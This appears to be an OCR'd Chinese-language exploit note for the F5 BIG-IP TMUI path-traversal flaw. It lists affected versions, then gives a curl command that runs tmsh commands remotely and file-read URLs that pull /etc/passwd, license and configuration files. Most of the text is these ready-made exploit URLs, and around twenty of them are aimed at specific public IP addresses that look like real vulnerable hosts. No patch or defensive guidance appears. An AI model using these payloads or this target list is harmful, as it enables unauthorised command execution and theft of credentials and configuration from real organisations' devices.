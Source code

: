 版本影响： BIG-IP 15.x: 15.1.0/15.0.0 BIG-IP 14.x: 14.1.0 ~ 14.1.2 BIG-IP 13.x: 13.1.0 ~ 13.1.3 BIG-IP 12.x: 12.1.0 ~ 12.1.5 BIG-IP 11.x: 11.6.1 ~ 11.6.5 远程命令执行RCE: curl -v -k 'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
https://43.247.102.140/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin https://43.247.102.142/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
文件包含漏洞： https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp? fileName=/config/bigip.license https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf https://183.2.157.179/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://36.110.142.2/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://183.2.157.181/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://58.215.213.226/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://36.110.49.152/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://116.204.216.4/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://116.204.219.3/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://43.247.102.141/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://218.205.188.31/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://60.247.99.150/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://36.110.49.151//tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://111.198.181.151/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://220.248.87.92/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://43.247.102.142/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://183.2.157.180/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd https://43.247.102.140/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
